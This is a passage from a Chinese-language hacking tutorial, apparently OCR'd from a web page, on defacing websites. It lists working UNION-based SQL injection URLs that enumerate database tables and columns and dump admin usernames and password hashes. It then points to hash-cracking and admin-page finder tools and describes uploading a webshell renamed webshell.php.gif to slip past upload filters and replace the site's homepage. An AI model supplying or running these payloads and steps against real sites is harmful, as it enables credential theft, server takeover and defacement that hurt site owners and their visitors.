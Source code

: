 通过 LIMIT  
 遍历表名：  
```
http://www.example.com/news.php?id=5' union all select 1,table_name,3 from information_schema.tables limit 0,1-- --
http://www.example.com/news.php?id=5' union all select 1,table_name,3 from information_schema.tables limit 1,1-- --

```  
  
类似方法获取列名：  
```
http://www.example.com/news.php?id=5' union all select 1,column_name,3 from information_schema.columns-- --
```  
#### 3.3 提取用户信息  
  
使用 concat()  
 拼接数据：  
```
http://www.example.com/news.php?id=5' union all select 1,concat(username,0x3a,password),3 from admin-- --
```  
  
返回结果格式为 username:password  
。  
### 4. 破解管理员密码  
#### 4.1 使用在线工具破解哈希  
  
常用工具包括：  
- MD5 Decrypter  
  
- CrackStation  
  
### 5. 寻找管理员登录页面  
#### 5.1 使用 Admin Finder 工具  
  
推荐工具：  
- Zone-XSEC Admin Finder  
  
- Prinsh Admin Finder  
  
### 6. 上传 WebShell 并替换首页  
#### 6.1 上传 WebShell  
  
通过下载 WebShell 获取控制权限：  
- Prinsh Shell Downloader  
  
如果网站不允许上传 .php  
 文件，可以将文件重命名为 webshell.php.gif  
。  
#### 6.2 替换首页文件  
  
访问上传的 WebShell，例如：  
```
http://www.site.com/images/webshell.php.gif

```  
  
